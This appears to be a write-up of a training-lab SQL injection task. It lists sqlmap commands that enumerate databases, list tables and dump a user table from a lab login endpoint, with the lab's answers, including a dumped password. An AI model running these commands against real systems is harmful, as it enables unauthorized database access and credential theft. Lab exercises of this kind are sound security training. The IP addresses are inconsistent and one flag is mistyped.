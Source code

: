 
`http://10.10.92.3/ai/login`

`http://10.10.92.3/ai/includes/user_login?email=test&password=test`

Run the commands as discussed in the previous task on this URL and answer the questions given in this task. Also, remember to include your URL inside single quotes `'`. This is to avoid errors with special characters in the terminal such as `?`.

**Important Note:** You may not get the results by the simple scan; add `--level=5` at the end of your commands to perform the in-depth scans. Secondly, while running the commands, the tool may ask you some questions; make sure to respond to them as follows to run the scan smoothly:

- It looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]: `y`
- For the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n]: `y`
- Injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]: `y`
- GET parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]: `n`

---------
*How many databases are available in this web application?*
- `sqlmap -u <url> --dbs --level=5`
	- Dumped database information -> **6 databases**

*What is the name of the table available in the ai database*
- `sqlmap -u 'http://10.10.215.193/ai/includes/user_login?email=test&password=test' -D ai -tables
	- Dumped table information -> "ai database holds `user` tables"


*What is the password of the email test@chatai.com?`*
- `sqlmap -u 'http://10.10.215.193/ai/includes/user_login?email=test&password=test' -D ai -T user --dump
	- **Password:** 12345678
`




`